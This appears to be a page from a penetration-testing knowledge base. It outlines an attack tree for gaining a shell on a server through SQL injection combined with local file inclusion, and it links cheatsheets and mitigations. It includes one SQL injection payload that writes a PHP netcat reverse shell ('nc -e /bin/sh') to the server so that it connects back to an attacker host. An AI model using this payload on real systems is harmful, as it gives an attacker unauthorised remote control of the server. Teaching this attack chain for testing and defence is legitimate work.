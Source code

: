 # Get shell and control target server

## Attack tree

```text
1 Netcat installed on both systems (hacking and target machines) (AND)
    1.1 Install netcat on both systems (AND)
    1.2 Create a reverse shell (AND)
    1.3 Setup a netcat listener on the hacking machine
2 SQL injection writing payload to server (AND)
    2.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    2.2 Find the amount of columns (AND)
    2.3 Find which columns accept queries (AND)
    2.4 Build an UNION SELECT SQL segment (AND)
    2.5 Inject SQL statements into the column (AND)
    2.6 Post exploitation
3 Use file inclusion vulnerability of any website on the server to run the payload
    3.1 Connect to the listener from the target machine (AND)
    3.2 Post exploitation
```
## Example SQL segments

PHP (and nc):
```text
-1' UNION SELECT '<?passthru("nc -e /bin/sh/ <IP hacking server> <port>");?>',null into outfile '/tmp/reverse.php' /*
```

## Notes

Works only in combination with a [local file inclusion vulnerability](../application/Local-file-inclusion.md).

## Tools
* [Burp suite CE proxy](https://portswigger.net/burp/documentation/desktop/getting-started/intercepting-http-traffic)

## Cheatsheets
* [Weevely cheatsheet](cheatsheets:docs/payloads/weevely)
* [MSFvenom cheatsheet](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)
* [Local file inclusion](cheatsheets:docs/application/lfi)
* [Reverse shell commands](cheatsheets:docs/application/reverse-shell-commands)
* [Path Traversal Cheat Sheet: Windows](https://www.akimbocore.com/article/windows-path-traversal-cheat-sheet/)
* [Path Traversal Cheat Sheet: Linux](https://www.akimbocore.com/article/linux-path-traversal-cheat-sheet/)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterisation)
* [Input validation](app-mitigations:docs/databases/input)
* [Local file inclusion](app-mitigations:docs/coding/lfi)
